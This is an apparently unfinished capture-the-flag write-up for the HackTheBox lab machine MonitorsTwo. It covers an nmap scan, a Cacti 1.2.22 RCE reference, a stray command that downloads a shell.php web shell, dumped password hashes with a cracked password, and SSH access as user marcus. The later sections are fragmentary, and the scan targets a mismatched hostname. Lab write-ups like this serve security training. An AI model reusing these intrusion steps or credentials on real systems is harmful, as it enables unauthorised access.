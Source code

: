 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.11.211 monitorstwo.htb
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV vulnversity.thm
```

We got this result
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (port 80)
We found a website that seems to use a webapp named Cacti in version 1.2.22
<img width="749" alt="image" src="https://github.com/MaTe0r/app.hackthebock.com/assets/94843357/72dd313b-88d7-46ed-8fe0-81a25260037d">

By googling, it seems there is no default credentials for the app but we found an RCE for the version 1.2.22 (https://www.exploit-db.com/exploits/51166)
curl -o shell.php


admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC (Jamie Thompson - admin@monitorstwo.htb)
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C (Marcus Brune - marcus@monitorstwo.htb)
-> password : funkymonkey
guest:43e9a4ab75570f5b


we can use marcus's credentials and connect by SSH
/usr/share/openssh/sshd_config
/usr/share/keyrings
/etc/skel/
/etc/profile.d/
